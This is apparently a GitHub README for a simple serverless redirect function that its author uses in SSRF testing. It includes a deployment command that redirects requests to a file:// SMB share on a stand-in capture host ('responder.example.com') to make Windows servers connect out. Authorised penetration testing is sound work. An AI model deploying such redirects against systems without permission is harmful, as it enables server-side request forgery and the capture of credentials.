 # Simple Redirect
This example is used to redirect any incoming HTTP request to a different host. I primarily use it when testing for SSRF to see if I can get the server to follow redirects. It's also sometimes possible to redirect an HTTP request to a different protocol, like file://, and force Windows machines to make SMB connections to arbitrary hosts.

The function takes two environment variables:
 * REDIRECT_URL - a full URL to redirect to. Must include protocol
 * STATUS - HTTP status code to cause redirect. Defaults to 301

## Deployment
```
$ now -e REDIRECT_URL=https://example.com --public
```

To change the status code:
```
$ now -e REDIRECT_URL=file://responder.example.com/share -e STATUS=303 --public
```

## Usage
Any request made to the function will be redirected

```
$ curl -i --http1.1 https://simpleredirect-fqtvudxjhf.now.sh/randompath
HTTP/1.1 303 See Other
Date: Sun, 11 Nov 2018 16:39:44 GMT
Transfer-Encoding: chunked
Connection: keep-alive
Location: file://responder.example.com/share/
```

